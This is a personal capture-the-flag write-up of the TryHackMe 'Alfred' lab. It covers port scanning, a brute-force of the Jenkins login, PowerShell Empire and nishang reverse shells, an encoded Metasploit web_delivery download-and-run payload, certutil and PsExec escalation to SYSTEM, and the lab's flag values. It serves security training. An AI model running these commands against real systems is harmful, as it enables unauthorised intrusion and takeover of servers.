

#tryhackme #jenkins #nmap #whatweb #searchsploit #ffuf #metasploit #nishang #psexec #linux 

## Recon
---
### Nmap

```bash
# Nmap 7.94 scan initiated Fri Jun 16 08:51:17 2023 as: nmap -sVC -p- -T4 -Pn -vv -oA alfred 10.10.145.150
Nmap scan report for 10.10.145.150
Host is up, received user-set (0.28s latency).
Scanned at 2023-06-16 08:51:17 EDT for 416s
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE            REASON          VERSION
80/tcp   open  http               syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 127
8080/tcp open  http               syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 16 08:58:13 2023 -- 1 IP address (1 host up) scanned in 416.05 seconds
```

## Initial Access
---

> **[pwn_jenkins](https://github.com/gquere/pwn_jenkins)**

### Recon

Static website on port 80


Get email: `alfred@wayneenterprises.com`

Jenkins on port 8080


> Failed to login with `alfred:alfred`, `alfred:password`, `jenkins:jenkins`, `jenkins:password`

Observe the response headers, the version is `Jenkins 2.190.1`


or just use **whatweb**

```bash
whatweb -v http://10.10.145.150:8080/
```



Search exploit for `jenkins 2.19`

```bash
┌──(kali㉿kali)-[~/thm/Alfred]
└─$ searchsploit jenkins 2.19
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Jenkins Plugin Script Security < 1.50/Declarative < 1.3.4.1/Groovy < 2.61.1 - Remote Code Execution (PoC)                                                                      | java/webapps/46427.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

### Bruteforce Jenkin's login

Using **ffuf** to bruteforce weak credentianls and common passwords

Save the login request from burp to `login.req`

Replace username and password value to `FUZZ1` and `FUZZ2` for **ffuf** to handle

```bash
┌──(kali㉿kali)-[~/thm/Alfred]
└─$ cat login.req
POST /j_acegi_security_check HTTP/1.1
Host: 10.10.145.150:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: http://10.10.145.150:8080
Connection: close
Referer: http://10.10.145.150:8080/loginError
Cookie: JSESSIONID.e5ab89b8=node01nik6gr43i1buf50hp8jzbz30.node0
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

j_username=FUZZ1&j_password=FUZZ2&from=%2F&Submit=Sign+in 
```

```bash
ffuf -c -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZ1 -w /usr/share/wordlists/fasttrack.txt:FUZZ2 -request login.req -request-proto http -r -fc 401
```

> [!NOTE] Parameter Explaination
> - specify `-request-proto http` to force http
> - Since failed login response `302`, specify `-r` to redirect
> - `-fc 401` : Filter Code 401


Get creds: `admin`:`admin`

Login to jenkins


### Get Reverse Shell

Go to project settings


Try reverse shell (Using Powershell Empire)

```bash
usestager multi_launcher
set Listener http
execute
```

Save and build the project

Get agent back


If try to browse file through starkiller, it will show the error 

```bash
 [!] error running command: The term 'ConvertTo-Json' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
```

`ConvertTo-Json` was introduced in Powershell 3.0+

But the host runs `PowerShell v2.0`


> ConptyShell Did Not Work On This Machine

```bash
PS C:\Users\bruce\Desktop> cat user.txt
79007a09481963edf2e1321abd9ae2a0
```

## Switching Shells
---

### From empire to nishang

```bash
agents
interact VMLERWY7
usemodule powershell_management_invoke_script
set ScriptPath /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
set ScriptCmd Invoke-PowerShellTcp -Reverse -IPAddress 10.11.19.145 -Port 1111
execute
```

```bash
┌──(kali㉿kali)-[~]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.145.150] 50676
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```

### From Reverse Shell to Metasploit Using Powershell

#### Get tcp reverse shell

Use `web_delivery` or `smb_delivery` to quickly deliver meterpreter payload

```bash
search web deliver
use exploit/multi/script/web_delivery
set SRVPORT 8181
setg lhost tun0

show targets

# Set target to powershell
set target 2

set payload windows/meterpreter/reverse_tcp
run
```

Result

```bash
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 9.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.11.19.145:4444
[*] Using URL: http://10.11.19.145:8081/4g0XVTTz3737Ed
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABwAHIAPQBuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAA7AGkAZgAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAFAAcgBvAHgAeQBdADoAOgBHAGUAdABEAGUAZgBhAHUAbAB0AFAAcgBvAHgAeQAoACkALgBhAGQAZAByAGUAcwBzACAALQBuAGUAIAAkAG4AdQBsAGwAKQB7ACQAcAByAC4AcAByAG8AeAB5AD0AWwBOAGUAdAAuAFcAZQBiAFIAZQBxAHUAZQBzAHQAXQA6ADoARwBlAHQAUwB5AHMAdABlAG0AVwBlAGIAUAByAG8AeAB5ACgAKQA7ACQAcAByAC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAxAC4AMQA5AC4AMQA0ADUAOgA4ADAAOAAxAC8ANABnADAAWABWAFQAVAB6ADMANwAzADcARQBkAC8AUgBSAGgAUABNADEAdgBOAE8AcABqAFEAZAAnACkAKQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAxAC4AMQA5AC4AMQA0ADUAOgA4ADAAOAAxAC8ANABnADAAWABWAFQAVAB6ADMANwAzADcARQBkACcAKQApADsA
msf6 exploit(multi/script/web_delivery) > 
[*] 10.10.145.150    web_delivery - Delivering AMSI Bypass (1387 bytes)
[*] 10.10.145.150    web_delivery - Delivering Payload (3511 bytes)
[*] Sending stage (175686 bytes) to 10.10.145.150
[*] Meterpreter session 2 opened (10.11.19.145:4444 -> 10.10.145.150:51175) at 2023-06-16 11:47:12 -0400
```

## Privilege Escalation
---

For an impersonation token, there are different levels:

- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

[[Windows Privilege Escalation#SeImpersonate / SeAssignPrimaryToken]]

### Manully

```bash
PS C:\Programdata> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

Have `SeImpersonatePrivilege` token -> use psexec to get system

> Refer - [[2. Blue#Psexec get all privilege tokens]]

```bash
certutil -urlcache -split -f http://10.11.19.145/PsExec64.exe psexec.exe
.\psexec.exe -accepteula -s cmd.exe /c \\10.11.19.145\s\rev.exe
```

Result

```bash
┌──(kali㉿kali)-[~/thm/Alfred]
└─$ rlwrap -r -f . nc -nlvp 1112
listening on [any] 1112 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.145.150] 52186
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Find Flag

```bash
C:\>dir root.txt /s
dir root.txt /s
 Volume in drive C has no label.
 Volume Serial Number is E033-3EDD

 Directory of C:\Windows\System32\config

10/26/2019  12:36 PM                70 root.txt
               1 File(s)             70 bytes
               
C:\Windows\system32>type C:\Windows\System32\config\root.txt
type C:\Windows\System32\config\root.txt
dff0f748678f280250f25a45b8046b4a
```

### Metasploit

Straight forward

```bash
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Migrate to `winlogon/exe`

```bsah
ps
migrate 608
```

Get flag

```bash
meterpreter > cat 'C:\Windows\System32\config\root.txt'
dff0f748678f280250f25a45b8046b4a
```